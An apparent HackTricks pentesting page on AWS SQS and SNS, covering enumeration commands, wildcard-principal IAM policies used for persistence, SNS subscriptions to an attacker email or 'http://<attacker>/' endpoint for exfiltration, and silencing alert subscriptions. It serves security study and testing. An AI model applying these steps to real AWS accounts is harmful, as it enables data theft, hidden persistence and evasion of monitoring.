 # AWS - SQS & SNS Enum

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## SQS

Amazon Simple Queue Service (SQS) is a **fully managed message queuing service** that enables you to decouple and scale microservices, distributed systems, and serverless applications. SQS eliminates the complexity and overhead associated with **managing and operating message-oriented middleware**, and empowers developers to focus on differentiating work.

### Enumeration

```bash
aws sqs list-queues
aws sqs get-queue-attributes --queue-url <url> --attribute-names All
aws sqs receive-message --queue-url <value>
aws sqs send-message --queue-url <value> --message-body <value>
```

### Persistence

In SQS you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to everything in the queue called **MyTestQueue**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__owner_statement",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SQS:*"
      ],
      "Resource": "arn:aws:sqs:us-east-1:123123123123:MyTestQueue"
    }
  ]
}
```

{% hint style="info" %}
You could even **trigger a Lambda in the attackers account every-time a new message** is put in the queue (you would need to re-put it) somehow. For this follow these instructinos: [https://docs.aws.amazon.com/lambda/latest/dg/with-sqs-cross-account-example.html](https://docs.aws.amazon.com/lambda/latest/dg/with-sqs-cross-account-example.html)
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) is a **fully managed messaging service** for both **application-to-application** (A2A) and **application-to-person** (A2P) communication.

The A2A pub/sub functionality provides **topics** for high-throughput, **push-based, many-to-many** messaging between distributed systems, microservices, and event-driven serverless applications. Using Amazon SNS topics, your publisher systems can fanout messages to a **large number of subscriber systems.**

### **Enumeration**

```bash
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

aws sns publish \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe \
    --protocol http \
    --notification-endpoint http://<attacker>/ \
    --topic-arn <arn>
```

### Persistence

When creating a **SNS topic** you need to indicate with an IAM policy **who has access to read and write**. It's possible to indicate external accounts, ARN of roles, or **even "\*"**.\
The following policy gives everyone in AWS access to read and write in the SNS topic called **`MySNS`**:

```json
{
  "Version": "2008-10-17",
  "Id": "__default_policy_ID",
  "Statement": [
    {
      "Sid": "__default_statement_ID",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": [
        "SNS:Publish",
        "SNS:RemovePermission",
        "SNS:SetTopicAttributes",
        "SNS:DeleteTopic",
        "SNS:ListSubscriptionsByTopic",
        "SNS:GetTopicAttributes",
        "SNS:AddPermission",
        "SNS:Subscribe"
      ],
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo",
      "Condition": {
        "StringEquals": {
          "AWS:SourceOwner": "318142138553"
        }
      }
    },
    {
      "Sid": "__console_pub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Publish",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    },
    {
      "Sid": "__console_sub_0",
      "Effect": "Allow",
      "Principal": {
        "AWS": "*"
      },
      "Action": "SNS:Subscribe",
      "Resource": "arn:aws:sns:us-east-1:318142138553:MySNS.fifo"
    }
  ]
}
```

### Post - Disrupt Login

Change SNS subscriptions to avoid sending alerts.

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
